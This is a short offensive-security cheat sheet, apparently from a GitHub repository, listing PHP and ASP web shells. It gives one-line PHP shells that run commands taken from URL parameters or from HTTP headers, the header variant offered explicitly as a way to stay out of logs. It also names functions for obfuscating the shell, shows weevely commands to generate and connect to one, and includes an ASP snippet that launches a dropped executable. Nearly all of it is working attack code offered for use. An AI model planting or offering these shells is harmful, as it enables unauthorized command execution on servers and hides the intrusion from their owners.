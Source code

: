 # WebShells

PHP
This code can be injected into pages that use php.

Execute one command
- "<?php system("whoami"); ?>"

Take input from the url paramter. shell.php?cmd=whoami
- <?php system($_GET['cmd']); ?>

The same but using passthru
- <?php passthru($_GET['cmd']); ?>

For shell_exec to output the result you need to echo it
- <?php echo shell_exec("whoami");?>

Exec() does not output the result without echo, and only output the last line. So not very useful!
- <?php echo exec("whoami");?>

Instead to this if you can. It will return the output as an array, and then print it all.
- <?php exec("ls -la",$array); print_r($array); ?>

preg_replace(). This is a cool trick
- <?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

Using backticks
- <?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

Using backticks
- <?php echo `whoami`; ?>

You can then call then execute the commands like this:
http://192.168.1.103/index.php?cmd=pwd
Make it stealthy
We can make the commands from above a bit more stealthy. Instead of passing the cmds through the url, which will be obvious in logs, we can pass them through other header-paramters. The use tampterdata or burpsuite to insert the commands. Or just netcat or curl.
- <?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
- <?php system($_SERVER['HTTP_USER_AGENT'])?>

I have had to use this one
- <?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>

Obfuscation
The following functions can be used to obfuscate the code.
eval()
assert()
base64()
gzdeflate()
str_rot13()

Weevely:
Using weevely we can create php webshells easily.
weevely generate password /root/webshell.php
Not we execute it and get a shell in return:
weevely "http://192.168.1.101/webshell.php" password

ASP
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
